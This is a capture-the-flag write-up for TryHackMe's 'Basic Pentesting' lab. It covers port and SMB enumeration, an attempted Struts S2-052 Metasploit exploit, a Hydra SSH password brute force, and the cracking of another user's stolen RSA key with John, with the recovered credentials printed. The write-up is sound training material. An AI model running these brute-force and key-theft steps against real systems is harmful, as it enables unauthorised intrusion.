






# Basic Pentesting — TryHackMe Write-up

**Date:** 2026-05-07  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Target OS:** Linux  
**IP:** 10.129.173.118 / 10.128.164.71 _(IP regenerated during session)_

---

## Reconnaissance

### Nmap

```bash
nmap -sC -sV -Pn <IP>
```

**Open ports:**

|Port|Service|Notes|
|---|---|---|
|22|SSH|Final entry point (bruteforce)|
|80|HTTP|Apache — /development directory|
|139/445|SMB|Anonymous share with user info|
|8009|AJP|Apache JServ Protocol (Tomcat)|
|8080|HTTP|Apache Tomcat 9.0.7|

---

## Web Enumeration — Port 80

```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

**Results:**

|Path|Status|Notes|
|---|---|---|
|/development|301|Accessible — contains two .txt files|
|/.htpasswd|403|Exists but not web-accessible|
|/.htaccess|403|Exists but not web-accessible|

### /development — Files found

**dev.txt:**

> Apache Struts 2.5.12 (REST plugin) running on the server. Exact version explicitly mentioned.

**j.txt:**

> Kay tells Jan their password is weak and was easily cracked from `/etc/shadow`. Asks them to change it immediately.

**Key findings:**

- Users identified: `jan`, `kay`
- Jan has a weak password → bruteforce target
- Kay has access to `/etc/shadow` → likely root or sudo
- Struts 2.5.12 with REST plugin → potential RCE (S2-052)

---

## Web Enumeration — Port 8080 (Tomcat)

`/manager` requires authentication. The 401 error page source mentions example credentials (`tomcat:s3cret`) — **did not work**.

> ⚠️ **Mistake:** Example credentials in Tomcat's 401 error HTML are documentation only, not the real ones. Always worth trying, but never assume they work.

---

## SMB Enumeration

```bash
smbclient -L //<IP> -N
```

**Available shares:**

- `anonymous` — no credentials required
- `IPC$` — standard, not interesting



```bash
smbclient //<IP>/anonymous -N
```

**File found:** `staff.txt` — internal note signed by **Kay**, mentioning **Jan** → two usernames confirmed.



```bash
# Inside smbclient, download files with:
get <filename>
```

> ⚠️ **Mistake:** `cat`, `type`, and `get-content` don't exist in smbclient. The only way to read files is `get` — download locally and read with `cat` outside.



---

## Exploitation Attempt — Apache Struts S2-052

Struts 2.5.12 with REST plugin is vulnerable to S2-052 (RCE via XStream).

```bash
msf6 > search struts S2-052
# Result: exploit/multi/http/struts2_rest_xstream
msf6 > use exploit/multi/http/struts2_rest_xstream
```

**Error:**

```
[-] The supplied module name is ambiguous: uninitialized constant HTTP.
```

**Confirmed bug in Metasploit 6.4** with this specific module. Persists after `apt update && apt install metasploit-framework`. Open issue in the Metasploit repository.

> ⚠️ **Note:** Valid attack vector but blocked by a tooling bug. Pending fix or manual exploitation via curl/external PoC.

---

## SSH Bruteforce — Hydra

Users identified: `jan`, `kay`  
Vector: SSH (port 22)

```bash
# Start PostgreSQL + Metasploit (Distrobox has no systemd)
sudo pg_ctlcluster 18 main start
sudo msfdb start

# Recommended alias in .bashrc:
alias startmsf='sudo pg_ctlcluster 18 main start && sudo msfdb start && msfconsole'
```

```bash
# Bruteforce — scale wordlists from small to large
hydra -l jan -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/best110.txt -t 4 -I ssh://<IP>
hydra -l jan -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt -t 4 -I ssh://<IP>

# Optimal for CTFs — first 100k lines of rockyou (~30-40 min)
head -n 100000 /usr/share/wordlists/rockyou.txt > /tmp/rockyou-100k.txt
hydra -l jan -P /tmp/rockyou-100k.txt -t 4 -I ssh://<IP>
```

**Result:** `jan:armando` — found with rockyou.

```bash
ssh jan@<IP>
# password: armando
```

---

## Post-Exploitation — PrivEsc to kay

### Enumeration as jan

```bash
# Transfer LinEnum to target
# From Kali:
python3 -m http.server 8000

# On jan's shell:
cd /tmp
wget http://<KALI_IP>:8000/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

**SUID binaries:** nothing directly exploitable.

```bash
sudo -l
# Sorry, user jan may not run sudo on...
```

Sudo ruled out for `jan`.

### Readable files owned by kay

```bash
find / -user kay -readable 2>/dev/null
```

**Key finding:** `/home/kay/.ssh/id_rsa` — encrypted RSA private key, readable by `jan`.



### Cracking the RSA key with John

```bash
# Download the key from Kali
scp jan@<IP>:/home/kay/.ssh/id_rsa /tmp/kay_id_rsa

# Convert to John format
ssh2john /tmp/kay_id_rsa > /tmp/hash.txt

# Crack
john /tmp/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```



**Result:** `beeswax`

### SSH access as kay

```bash
chmod 600 /tmp/kay_id_rsa
ssh -i /tmp/kay_id_rsa kay@<IP>
# passphrase: beeswax
```



---

## Flag

```bash
cat /home/kay/pass.bak
# heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

---

## Lessons Learned

|Situation|Takeaway|
|---|---|
|Distrobox doesn't start services|Run `sudo pg_ctlcluster` manually before Metasploit|
|Example credentials in Tomcat 401|Always try them, but they're documentation — not real|
|No `cat` in smbclient|Use `get` to download locally, then read with `cat`|
|Full rockyou against SSH|Too slow — use scaled wordlists or first 100k entries|
|Metasploit 6.4 + struts2_rest_xstream bug|Known bug, not operator error|
|`chmod 600` on private key|SSH rejects keys with open permissions — always 600|
|john already cracked the hash|Use `john --show` to retrieve result without re-cracking|